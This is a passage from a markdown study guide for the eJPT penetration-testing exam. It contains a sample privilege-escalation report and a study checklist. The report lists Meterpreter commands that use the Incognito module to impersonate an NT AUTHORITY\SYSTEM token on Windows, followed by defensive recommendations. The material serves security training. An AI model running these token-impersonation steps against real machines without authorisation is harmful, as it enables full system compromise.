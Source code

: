 ```markdown
- **Final getuid output:** NT AUTHORITY\SYSTEM
- **Privileges verification:** [getprivs output]

### Business Impact:
**Risk Level:** CRITICAL
**Impact:** Complete system compromise from limited user access
**Recommendations:** Implement privilege separation, monitor token usage
```

### **Detailed Technical Report:**
```markdown
## Technical Privilege Escalation Report

### Commands Executed:
```bash
# Initial reconnaissance
meterpreter > getuid
meterpreter > sysinfo
meterpreter > ps

# Token impersonation attempt
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"

# Verification
meterpreter > getuid
meterpreter > getprivs
```

### Vulnerability Analysis:
| Component | Status | Risk Level | Details |
|-----------|---------|------------|---------|
| Token Isolation | FAILED | CRITICAL | SYSTEM tokens accessible to user |
| Process Separation | INSUFFICIENT | HIGH | User can access privileged processes |
| Privilege Boundaries | BYPASSED | CRITICAL | Successful escalation to SYSTEM |

### Recommendations:
1. **Implement Token Restrictions:** Limit token access for standard users
2. **Process Isolation:** Strengthen process security boundaries  
3. **Privilege Monitoring:** Monitor and alert on privilege escalation attempts
4. **Regular Patching:** Apply security updates to prevent kernel exploits
```

---

## 🎓 Study Guide for eJPT Success

### **Essential Knowledge Checklist:**
- [ ] Understand Windows privilege levels (User, Administrator, SYSTEM)
- [ ] Know how to check current privileges (getuid, getprivs)
- [ ] Can load and use Incognito module for token impersonation
- [ ] Understand difference between delegation and impersonation tokens
- [ ] Know how to use local exploit suggester for automated detection
- [ ] Can execute suggested privilege escalation exploits
- [ ] Understand WinRM service and how to exploit it
- [ ] Can verify successful privilege escalation

### **Practice Scenarios:**
1. **Token Impersonation:** Steal SYSTEM token from user access
2. **Automated Escalation:** Use suggester to find and exploit vulnerabilities
```